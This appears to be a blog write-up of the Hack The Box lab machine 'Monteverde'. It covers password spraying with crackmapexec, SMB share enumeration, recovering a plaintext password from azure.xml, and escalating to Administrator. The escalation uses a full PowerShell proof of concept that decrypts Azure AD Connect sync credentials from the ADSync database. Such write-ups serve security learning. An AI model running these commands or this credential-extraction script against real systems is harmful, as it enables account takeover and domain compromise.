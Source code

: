 ```yaml
---
layout: post
author: k0z4c
title: Monteverde
---
```


## **Getting Access**

We start as always with

![]({% link assets/htb/monteverde/nmap.png %})

We can spot a SMB and WinRM port.

After running enum4linux against the box we obtain  a list of users 

![]({% link assets/htb/monteverde/enum4linux.png %})

Let's try to access to port 445 using username as password
```bash
crackmapexec smb -u users_wdomain.lst -p users_wdomain.lst -d MEGABANK monteverde
```
![]({% link assets/htb/monteverde/userpwn.png %})

So now we have a valid account, SABatchJobs.

So let's list the shares
```bash
smbmap -L -d MEGABANK -u SABatchJobs -p SABatchJobs -H monteverde
```
![]({% link assets/htb/monteverde/shares.png %})

User$ share seems interesting.. let's take a look
```bash
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -d MEGABANK -r users$
```
![]({% link assets/htb/monteverde/azurefile.png %})


Seems that the only interesting file is azure.xml; let's download it 
![]({% link assets/htb/monteverde/azuredownload.png %})

aaah! an embedded password is spotted in the wild!
![]({% link assets/htb/monteverde/azurepassword.png %})

let's try to logon then with mhope user through winrm (the azure.xml file was in the mhope's folder)
![]({% link assets/htb/monteverde/winrmpwn.png %})

Gotcha!

## **Privilege escalation to Administrator**

Box, box on the net who's this user between all?
![]({% link assets/htb/monteverde/whoami.png %})

Nice; we can see that user's hope belongs to a very interesting group.


googlin'around we can find a way to escalate our privileges https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

To sum up, the host is probably hosting the azure ad connect service, that is responsible to sync hashes from the on premise ad env to the azure (cloud) one.
When the aforementioned service is installed and configured in Password Hash Syncronization mode, it'll create a local database (ADSync), that stores data and metadata for the 
service itself.
Searching through this data we can find small bits that can be used to decrypt the password of the user owning the database, that is a user in the domain that can push the local ad hashes on the cloud.
(ndr the user must have the “replicating directory changes” in his ACL; so we can use the compromised account to perform a DCSync attack too!)


let's check if we can perform the attack.. 

An sqlserver instance is effectively running 
![]({% link assets/htb/monteverde/sqlinfo.png %})

An ADSync database is present
![]({% link assets/htb/monteverde/databasecheck.png %})

.. and owned by the administrator! :*

so the exploit might probably apply.. let's give it a try.
You can find the exploit code here https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545

You have only to change the connection string with dis one.
That's because we have to authenticate to a full flat sql server (not the express edition mentioned in the gist).

{% highlight powershell lineos %}
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}


We then upload through our shell the poc and we run it
![]({% link assets/htb/monteverde/adminpwd.png %})

..fantastic.


Now let's connect to the box again with the new creds
![]({% link assets/htb/monteverde/adminpwn.png %})

... pwned (:

### **Credits** 

* the new exploit gist [here][new_exploit] (yea microsoft patches >:)
* the exploit explanation [here][exploit_blog] and [here][sspi] some SSPI authentication explanation.
* info about connection strings MDN [here][conn_str]

[exploit_blog]: https://blog.xpnsec.com/azuread-connect-for-redteam/
[sspi]: https://ldapwiki.com/wiki/Security%20Support%20Provider%20Interface
[new_exploit]: https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c
[conn_str]:  https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?redirectedfrom=MSDN&view=dotnet-plat-ext-3.1#System_Data_SqlClient_SqlConnection_ConnectionString

